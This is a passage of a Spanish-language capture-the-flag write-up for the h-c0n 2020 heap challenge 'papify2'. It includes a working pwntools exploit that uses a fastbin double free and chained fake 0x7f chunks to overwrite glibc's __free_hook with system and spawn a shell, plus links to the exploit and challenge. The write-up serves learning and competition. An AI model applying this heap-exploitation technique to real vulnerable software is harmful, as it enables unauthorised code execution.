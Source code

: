 El método que utilicé fue empeza obtene un chunk en esa dirección lejana y escribir un byte 0x7f al final del mismo, de manera que sirviese como apoyo para el siguiente. De esta menera, podemos ir enlazando chunks hasta llegar al `_free_hook`. Solo fueron necesarios unos 37.

Dejo por aquí el código, aunque no me siento especialmente orgulloso del mismo X-D

```python
c=0
# Empezamos en el primer 0x7f que encontramos
fake_address = __free_hook - 0xedb - 8
# Paramos cuando el nuevo chunk vaya a estar solapando a free_hook
while fake_address + 0x60 < __free_hook:
    c+=1
    log.info("[%d] Creando chunk en %16x", c, fake_address)
    # Escribimos el 0x7f en la posición 0x60
    add(1,0x68, "\x00" * 0x5f + "\x7f") 

    # Creamos chunks y los liberamos. Usando double free podemos modificar ->fd
    add(0,0x68)
    add(1,0x68)
    add(2,0x68)
    delete(0)
    delete(1)
    delete(0)

    # Modificamos el fd del chunk para que apunte al 0x7f que acabamos de crear como size
    add(0,0x68, pack(fake_address) + pack(fake_address))
    add(2,0x68, "\x00")
    add(1,0x68, "\x00") 

    # Incrementamos la dirección objetivo    
    fake_address += 0x68 - 1 

log.info("Ahora parcheamos __free_hook")
add(1, 0x68, "\x00"*0x57 + pack(libc.sym['system']))

# Creamos un chunk con /bin/sh y lo liberamos para llamar a system
add(0, 0x20, "/bin/sh\x00")
delete(0)

io.interactive()
```

## Conclusiones

Los retos de heap son para echarlos de comer aparte, es completamente distinto a los stack overflows y similares. Aquí tienes que pelearte con la implementación concreta de la libc, entender cómo funciona y tratar de saltar las medidas de protección que tengan implementadas.

Mi solución al reto, aunque poco eficiente y mucho más compleja que la que se esperaba, me ha servido para aprender un poco más de este mundillo. En última instancia, solucionar estos retos depende mucho de la experiencia previa, haberse leido basntantes writeups y peleado con ellos hasta conseguirlo, de la manera que sea.

Mis dieses al equipo de la h-c0n, y más concretamente a ka0rz por este reto.

## Descargas


* [exploit.py]({{site.base_url}}/files/hc0n2020/exploit.py)
* [el reto]({{site.base_url}}/files/hc0n2020/papify2.zip)
